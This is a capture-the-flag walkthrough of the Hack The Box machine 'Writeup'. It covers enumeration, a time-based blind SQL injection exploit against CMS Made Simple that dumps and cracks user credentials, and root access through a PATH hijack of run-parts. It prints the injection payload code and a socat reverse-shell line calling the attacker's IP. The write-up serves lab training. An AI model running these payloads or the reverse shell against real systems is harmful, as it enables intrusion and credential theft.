

HTB WriteUp (10.10.10.138)
TABLE OF CONTENTS
- PART 1 : INITIAL RECON
- PART 2 : PORT ENUMERATION
- PART 3 : EXPLOITATION
- PART 4 : GENERATE A USER SHELL
- PART 5 : PRIVILEGE ESCALATION (jkr -> root)
PART 1 : INITIAL RECON
$ nmap --min-rate 15000 -p- 10.10.10.138
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
$ nmap -p 22,80 -sC -sV -T4 10.10.10.138
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
| 2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
| 256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_ 256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open http Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
NOTE(S):
- There exists a
robots.txtfile.
PART 2 : PORT ENUMERATION
TCP PORT 80

There seems to be a script in place that monitors 40X responses wchich serves as a DoS protection. This means that any form of bruteforce/dictionary attack to the http service might not work as expected.
There was a mention of a write-up page that is yet to go live but with the site having a DoS protection, running gobuster or wfuzz might not be the best option. Luckily, a robots.txt file was detected by the nmap scan earlier:
# __
# _(\ |@@|
# (__/\__ \--/ __
# \___|----| | __
# \ }{ /\ )_ / _\
# /\__/\ \__O (__
# (--/\--) \__/
# _)( )(_
# `---''---`
# Disallow access to the blog until content is finished.
User-agent: *
Disallow: /writeup/
robots.txt tells web robots or web crawlers which pages of a site to crawl. This helps for a site’s SEO (Search Engine Optimization). In this case, the directory /writeup/ was disallowed and therefore, should exist. This is probably the write-up page that was mentioned earlier.
| Wappalyzer | |
|---|---|
| CMS | CMS Made Simple |
| Programming Language | PHP |
| Web Server | Apache 2.4.25 |
| Operating System | Debian |
The page just contains write-ups of the retired boxes, Ypuffy and Blue, but checking Wappalyzer that reveals the service running underneath is CMS Made Simple
PART 3 : EXPLOITATION
There might already be an existing exploit for CMS Made Simple:
$ searchsploit CMS | grep -i "made simple"
CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Code Execution (Metasploit) | exploits/php/remote/46627.rb
CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion | exploits/php/webapps/26217.html
CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting | exploits/php/webapps/26298.txt
CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting | exploits/php/webapps/29272.txt
CMS Made Simple 1.0.5 - 'Stylesheet.php' SQL Injection | exploits/php/webapps/29941.txt
CMS Made Simple 1.11.10 - Multiple Cross-Site Scripting Vulnerabilities | exploits/php/webapps/32668.txt
CMS Made Simple 1.11.9 - Multiple Vulnerabilities | exploits/php/webapps/43889.txt
CMS Made Simple 1.2 - Remote Code Execution | exploits/php/webapps/4442.txt
CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection | exploits/php/webapps/4810.txt
CMS Made Simple 1.2.4 Module FileManager - Arbitrary File Upload | exploits/php/webapps/5600.php
CMS Made Simple 1.4.1 - Local File Inclusion | exploits/php/webapps/7285.txt
CMS Made Simple 1.6.2 - Local File Disclosure | exploits/php/webapps/9407.txt
CMS Made Simple 1.6.6 - Local File Inclusion / Cross-Site Scripting | exploits/php/webapps/33643.txt
CMS Made Simple 1.6.6 - Multiple Vulnerabilities | exploits/php/webapps/11424.txt
CMS Made Simple 1.7 - Cross-Site Request Forgery | exploits/php/webapps/12009.html
CMS Made Simple 1.8 - 'default_cms_lang' Local File Inclusion | exploits/php/webapps/34299.py
CMS Made Simple 1.x - Cross-Site Scripting / Cross-Site Request Forgery | exploits/php/webapps/34068.html
CMS Made Simple 2.1.6 - Multiple Vulnerabilities | exploits/php/webapps/41997.txt
CMS Made Simple 2.1.6 - Remote Code Execution | exploits/php/webapps/44192.txt
CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execution | exploits/php/webapps/44976.py
CMS Made Simple 2.2.7 - (Authenticated) Remote Code Execution | exploits/php/webapps/45793.py
CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Poisoning | exploits/php/webapps/39760.txt
CMS Made Simple < 2.2.10 - SQL Injection | exploits/php/webapps/46635.py
CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File Upload | exploits/php/webapps/34300.py
CMS Made Simple Module Download Manager 1.4.1 - Arbitrary File Upload | exploits/php/webapps/34298.py
CMS Made Simple Showtime2 Module 3.6.2 - (Authenticated) Arbitrary File Upload | exploits/php/webapps/46546.py
The latest unauthenticated standalone exploit available is SQL Injection for versions CMS Made Simple < 2.2.10.
$ searchsploit -m exploits/php/webapps/46635.py
Exploit: CMS Made Simple < 2.2.10 - SQL Injection
URL: https://www.exploit-db.com/exploits/46635
Path: /usr/share/exploitdb/exploits/php/webapps/46635.py
File Type: Python script, ASCII text executable, with CRLF line terminators
The exploit calls the functions, dump_salt(), dump_username(), dump_email(), and dump_password() to extract user credentials in the database. It is done by performing a time-based blind SQL injection where if the query returned is not null, the system sleeps for some time.
...omitted...
def dump_password():
global flag
global password
global output
ord_password = ""
ord_password_temp = ""
while flag:
flag = False
for i in range(0, len(dictionary)):
temp_password = password + dictionary[i]
ord_password_temp = ord_password + hex(ord(dictionary[i]))[2:]
beautify_print_try(temp_password)
payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users"
payload += "+where+password+like+0x" + ord_password_temp + "25+and+user_id+like+0x31)+--+"
url = url_vuln + "&m1_idlist=" + payload
start_time = time.time()
r = session.get(url)
elapsed_time = time.time() - start_time
if elapsed_time >= TIME:
flag = True
break
if flag:
password = temp_password
ord_password = ord_password_temp
flag = True
output += '\n[+] Password found: ' + password
...omitted...
The data are extracted by querying if a string (starting from the first character of the actual string) is a substring of the actual string. This is checked by measuring the response times. If it is greater than or equal to the sleep time, then the query did not return a null value. This is done character by character until the entire character string is returned.
$ python ./46635.py --url http://10.10.10.138/writeup/ --wordlist /usr/share/wordlists/rockyou.txt --crack
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
The exploit takes a while to run since it is more of a bruteforcing method coupled with the sleep() function but at least, it worked. It revealed a credential pair for the user, jkr.
PART 4 : GENERATE A USER SHELL
$ ssh -l jkr 10.10.10.138
$ jkr@10.10.10.138's password: raykayjay9
jkr@writeup:~$
Enumerating the system:
jkr@writeup:~$ uname -mnor
writeup 4.9.0-8-amd64 x86_64 GNU/Linux
jkr@writeup:~$ cat /etc/passwd | grep -e "sh$"
root:x:0:0:root:/root:/bin/bash
jkr:x:1000:1000:jkr,,,:/home/jkr:/bin/bash
jkr@writeup:~$ ls -lah ~
drwxr-xr-x 2 jkr jkr 4.0K Oct 13 10:28 .
drwxr-xr-x 3 root root 4.0K Apr 19 04:14 ..
lrwxrwxrwx 1 root root 9 Apr 19 06:42 .bash_history -> /dev/null
-rw-r--r-- 1 jkr jkr 220 Apr 19 04:14 .bash_logout
-rw-r--r-- 1 jkr jkr 3.5K Apr 19 04:14 .bashrc
-rw-r--r-- 1 jkr jkr 675 Apr 19 04:14 .profile
-r--r--r-- 1 root root 33 Apr 19 08:43 user.txt
jkr@writeup:~$ cat ~/user.txt
d4e4........................f978
PART 5 : PRIVILEGE ESCALATION (jkr -> root)
Upload and run pspy64 since the service is running on a 64-bit architecture:
$ wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s
pspy64s 100%[====================================================>] 1.10M
$ scp ./pspy64s jkr@10.10.10.138:/tmp/pspy64s
$ jkr@10.10.10.138's password: raykayjay9
pspy64s 100% 1129KB
jkr@writeup:~$ cd /tmp
jkr@writeup:/tmp$ chmod +x ./pspy64s
jkr@writeup:/tmp$ ./pspy64s
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855
██▓███ ██████ ██▓███ ▓██ ██▓
▓██░ ██▒▒██ ▒ ▓██░ ██▒▒██ ██▒
▓██░ ██▓▒░ ▓██▄ ▓██░ ██▓▒ ▒██ ██░
▒██▄█▓▒ ▒ ▒ ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
▒██▒ ░ ░▒██████▒▒▒██▒ ░ ░ ░ ██▒▓░
▒▓▒░ ░ ░▒ ▒▓▒ ▒ ░▒▓▒░ ░ ░ ██▒▒▒
░▒ ░ ░ ░▒ ░ ░░▒ ░ ▓██ ░▒░
░░ ░ ░ ░ ░░ ▒ ▒ ░░
░ ░ ░
░ ░
Connect to another ssh instance:
$ ssh -l jkr 10.10.10.138
$ jkr@10.10.10.138's password: raykayjay9
jkr@writeup:~$
Checking back on the running ./ppsy64s:
2019/10/11 11:05:21 CMD: UID=0 PID=2270 | sshd: [accepted]
2019/10/11 11:05:30 CMD: UID=0 PID=2272 | sshd: jkr [priv]
2019/10/11 11:05:30 CMD: UID=0 PID=2273 | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
2019/10/11 11:05:30 CMD: UID=0 PID=2274 | run-parts --lsbsysinit /etc/update-motd.d
2019/10/11 11:05:30 CMD: UID=0 PID=2275 | /bin/sh /etc/update-motd.d/10-uname
2019/10/11 11:05:30 CMD: UID=0 PID=2276 | sshd: jkr [priv]
2019/10/11 11:05:31 CMD: UID=1000 PID=2277 | sshd: jkr@pts/2
The run-parts binary is run and the weird thing about it is that it is passed through a call on /usr/bin/env with the -i (--ignore-environment) option enabled. The -i option enables the user to set environment variables from scratch or to create a unique setup when running an executable.
This series of events happens everytime a connection via ssh is established.
jkr@writeup:~$ env | grep PATH
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
jkr@writeup:~$ find / -name run-parts -type f 2>/dev/null
/bin/run-parts
The run-parts binary is located in the /bin/ directory which is already set in the actuale $PATH environment variable. The one being run when connecting via ssh includes /usr/local/sbin/, /usr/sbin/, and /sbin/.
The PATH environment variable is useful when running a binary since instead of calling an executable using its absolute path, calling only the executable’s name would suffice.
Maybe the exploit lies on how the environment variable, $PATH, is set for the run-parts binary.
jkr@writeup:~$ find / -type d -writable 2>/dev/null | grep bin
/usr/local/bin
/usr/local/sbin
Both /usr/local/bin and /usr/local/sbin are included when calling run-parts and it’s both writable. It’s possible to create another executable with the same name in either of the aforementioned directories.
Since the run-parts binary is run with reference to the $PATH environment variable, then maybe the first occurence (since /usr/local/bin and /usr/local/sbin are listed before /bin) or all occurences of the run-parts binary found in $PATH will be executed.
jkr@writeup:~$ echo -e '\x23\x21/bin/sh\nsocat TCP-CONNECT:10.10.15.13:4444 EXEC:sh,pty,stderr,setsid,sigint,sane' > /usr/local/sbin/run-parts
jkr@writeup:~$ chmod +x /usr/local/sbin/run-parts
Connect again via ssh:
$ ssh -l jkr 10.10.10.138
$ jkr@10.10.10.138's password: raykayjay9
jkr@writeup:~$
Checking back on the running ./ppsy64s:
2019/10/11 12:28:54 CMD: UID=0 PID=3735 | sshd: [accepted]
2019/10/11 12:28:54 CMD: UID=0 PID=3736 | sshd: [accepted]
2019/10/11 12:28:58 CMD: UID=0 PID=3738 | sshd: jkr [priv]
2019/10/11 12:28:58 CMD: UID=0 PID=3739 | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
2019/10/11 12:28:58 CMD: UID=0 PID=3740 | /bin/sh /usr/local/sbin/run-parts --lsbsysinit /etc/update-motd.d
2019/10/11 12:28:58 CMD: UID=0 PID=3741 | socat TCP-CONNECT:10.10.15.13:4444 EXEC:sh,pty,stderr,setsid,sigint,sane
The run-parts binary was completely overridden and the creted reverse shell executed with UID=0:
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
eeba........................7226
Normally, overriding a binary by writing to another directory listed in the $PATH variable with the same name wouldn’t work. Every binary invoked is written on a cache which includes its absolute path. But since the run-parts binary is being executed from scratch with /usr/bin/env -i, it was possible.